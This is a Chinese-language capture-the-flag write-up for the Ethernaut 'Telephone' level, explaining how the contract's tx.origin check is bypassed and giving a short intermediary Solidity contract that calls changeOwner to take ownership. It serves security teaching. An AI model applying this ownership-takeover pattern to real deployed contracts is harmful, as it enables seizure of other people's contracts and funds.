


## Level_4.Telephone

要求：

> 将合约所有权归于自己；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

### 分析

合约很简单，能修改` owner `的地方只有两处：

1. 构造函数
2. ` changeOwner `函数

构造函数肯定不能被利用了，只剩下一个` changeOwner `函数，只要` 交易的发送者 `不为` 该消息的发送者 `即可；

可以简单增加点Logger看一下分别是什么：



所以，我们得增加一个代理商来帮我们调用这个函数，这个代理商就是一个中转合约：



注意，` delegetecall `不能用，比如` A-->B-->C `，` A `委托调用` C `，此时的` tx.origin `和` msg.sender `都是` A `；只能用` call `；

### 攻击

攻击合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Ethernaut.sol";

contract Exp {
    Telephone public tel;

    function delegateCall(address _contract, address _wallet) public {
        tel = Telephone(_contract);
        tel.changeOwner(_wallet);
    }
}
```


